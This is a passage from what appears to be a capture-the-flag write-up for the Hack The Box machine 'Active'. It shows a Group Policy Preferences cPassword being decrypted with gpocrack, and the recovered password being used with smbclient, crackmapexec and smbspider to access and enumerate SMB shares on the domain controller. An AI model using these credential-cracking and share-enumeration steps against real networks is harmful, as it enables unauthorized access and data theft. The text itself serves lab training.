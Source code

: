 Note the [cPassword](https://pentestlab.blog/tag/cpassword/) in the XML file.


```bash
python gpocrack/gpocrack.py 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
Password is: GPPstillStandingStrong2k18
```

> Well, so far that's all I have! 

+ User: SVC_TGS
+ DOMAIN: active.htb
+ Password="GPPstillStandingStrong2k18"


```
smbclient //10.10.10.100/Users -U=SVC_TGS%GPPstillStandingStrong2k18 
smb: \SVC_TGS\Desktop\> get user.txt 
```


## PrivEsc:

> This box was not trivial. You cannot simply execute commands with CME. In addition, the new accesses on the SMB sharing with the identifiers found were a rabbit hole.

```
crackmapexec 10.10.10.100 -u SVC_TGS -p "GPPstillStandingStrong2k18" --shares  
CME          10.10.10.100:445 DC              [*] Windows 6.1 Build 7601 (name:DC) (domain:ACTIVE)
CME          10.10.10.100:445 DC              [+] ACTIVE\SVC_TGS:GPPstillStandingStrong2k18 
CME          10.10.10.100:445 DC              [+] Enumerating shares
CME          10.10.10.100:445 DC              SHARE           Permissions
CME          10.10.10.100:445 DC              -----           -----------
CME          10.10.10.100:445 DC              ADMIN$          NO ACCESS
CME          10.10.10.100:445 DC              IPC$            NO ACCESS
CME          10.10.10.100:445 DC              SYSVOL          READ
CME          10.10.10.100:445 DC              C$              NO ACCESS
CME          10.10.10.100:445 DC              Replication     READ
CME          10.10.10.100:445 DC              NETLOGON        READ
CME          10.10.10.100:445 DC              Users           READ
```

```py
smbspider.py -u SVC_TGS -p GPPstillStandingStrong2k18 -h 10.10.10.100 -s Users

 ********************************************************
 *     		        _     				*
 *    		       | |       //  \\			* 
 *	  ___ _ __ ___ | |__    _\\()//_		*
 *	 / __| '_ ` _ \| '_ \  / //  \\ \ 		*
 *	 \__ \ | | | | | |_) |   |\__/|			*
 *	 |___/_| |_| |_|_.__/				*
 *							*
 * SMB Spider v2.4, Alton Johnson (alton.jx@gmail.com) 	*
 ********************************************************

 [*] Spidering 1 system(s)...

 [*] Attempting to spider smb://10.10.10.100/Users 
 [*] \\10.10.10.100\Users\desktop.ini
 [*] \\10.10.10.100\Users\All Users\ATUS_STOPPED_ON_SYMLINK listing \All Users\
 [*] \\10.10.10.100\Users\Default\NTUSER.DAT
 [*] \\10.10.10.100\Users\Default\NTUSER.DAT.LOG
 [*] \\10.10.10.100\Users\Default\NTUSER.DAT.LOG1
 [*] \\10.10.10.100\Users\Default\NTUSER.DAT.LOG2
 [*] \\10.10.10.100\Users\Default\NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TM.blf
 [*] \\10.10.10.100\Users\Default\NTUSER.DAT{016888bd-6c6f-11de-8d1d-001e0bcde3ec}.TMContainer00000000000000000001.regtrans-ms
```